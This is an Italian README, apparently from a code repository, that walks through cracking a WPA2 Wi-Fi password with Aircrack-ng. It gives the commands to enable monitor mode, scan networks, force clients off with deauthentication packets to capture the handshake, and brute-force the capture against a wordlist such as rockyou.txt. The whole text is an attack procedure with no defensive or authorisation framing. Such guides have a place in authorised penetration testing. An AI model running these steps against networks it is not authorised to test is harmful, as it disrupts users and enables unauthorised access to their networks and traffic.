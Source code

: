 # AIRCRACK-NG - ATTACCO WPA2

## Requisiti
* Scheda di rete con supporto Monitor Mode
* Kali Linux / Parrot OS / Distro Linux compatibili
* Aircrack-NG
* Tutti i pacchetti di Aircrack-NG
* Dizionario password (WordList), consigliato rockyou.txt

## Utilizzo generale

1. **Abilitare la modalità monitor sulla scheda di rete**

> $ airmon-ng list
> $ airmon-ng start [nome interfaccia]

2. **Scansionare le reti disponibili con Airodump-NG**

> $ airodump-ng [nome interfaccia]

3. **Utilizzare Airodump-NG e Aireplay-NG per catturare l'handshake**

Terminale 1 (Airodump):
> $ airodump-ng -c [channel] --bssid [bssid] -w [nome-file] [nome interfaccia]
  
Terminale 2 (Aireplay):
> $ aireplay-ng -0 [numero attacchi] -a [bssid] [nome interfaccia]

4. **Crackare il file .CAP contentente l'handshake tramite Aircrack-NG e la wordlist.txt scelta**
> $ aircrack-ng -a 2 -b [bssid> -w [worldlist.txt] [file .cap]

